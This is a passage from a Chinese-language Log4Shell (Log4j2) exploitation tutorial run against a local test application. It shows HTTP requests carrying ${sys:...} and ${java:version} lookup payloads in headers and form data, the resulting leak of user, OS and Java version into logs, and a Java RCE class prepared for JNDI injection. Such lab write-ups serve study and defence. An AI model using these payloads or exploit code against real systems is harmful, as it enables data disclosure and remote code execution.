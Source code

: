 ```text
2022-01-05 23:12:36 INFO  ApplicationAvailabilityBean:75 - Application availability state ReadinessState changed to ACCEPTING_TRAFFIC
```

## 漏洞利用

发送如下两个 HTTP 请求。

```text
GET / HTTP/1.1
Host: 127.0.0.1:44228
Accept: */*
User-Agent: U=${sys:user.name}; os=${sys:os.name}; jv=${java:version}
Connection: close

```

```text
POST /login HTTP/1.1
Host: 127.0.0.1:44228
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

data=${java:version}
```

回到 IDEA 控制台便可以看到如下日志输出，其中包含了系统用户名、操作系统名、Java 版本。

```text
2022-01-05 23:12:18.124 ERROR 18704 --- [io-44228-exec-2] c.j.l.Log4ShellApplication               : U=r00t; os=Mac OS X; jv=Java version 1.8.0_181
2022-01-05 23:13:05.890 ERROR 18704 --- [io-44228-exec-4] c.j.l.Log4ShellApplication               : Java version 1.8.0_181
```

根据如上日志，可以发现 Log4j2 对带有${}的日志消息进行了特定格式的解析。

进一步的，我们可以通过 JNDI 注入来深入利用该漏洞。

准备如下 RCE 类，将其编译成 class 文件。

```java
import java.lang.Runtime;
import java.lang.Process;

@SuppressWarnings("all")
public class RCE {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"open", "-a", "Calculator.app"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
        }
    }
}
```
